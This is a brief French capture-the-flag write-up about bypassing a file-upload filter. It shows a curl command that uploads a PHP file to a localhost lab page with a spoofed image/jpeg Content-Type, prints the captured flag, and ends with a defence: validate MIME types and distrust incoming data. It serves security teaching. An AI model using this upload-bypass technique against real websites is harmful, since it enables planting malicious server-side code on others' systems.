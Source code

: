 On test d'upload directement un .php a la place d'une image mains ca ne marche pas.
on sait que le protocol http permet d'identifier le contenu d'une page web via different header
on tente donc d'upload un fichier php en changeant le header http via curl

echo "<?php echo("malware"); ?>" > /tmp/malware.php && curl -X POST -F "Upload=Upload" -F "uploaded=@/tmp/malware.php;type=image/jpeg" "http://localhost:8080/index.php?page=upload" | grep -n "flag"

The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8

DANGER :
injecter du code php directement sur un site web (script malveillant, etc...)

PROTECTION :
verifier le MIME type des fichiers qu'on recoit.
Type de médias
Un type de médias, à l'origine appelé type MIME, est un identifiant de format de données sur internet en deux parties. 

ne jamais faire confiance aux donnees recues
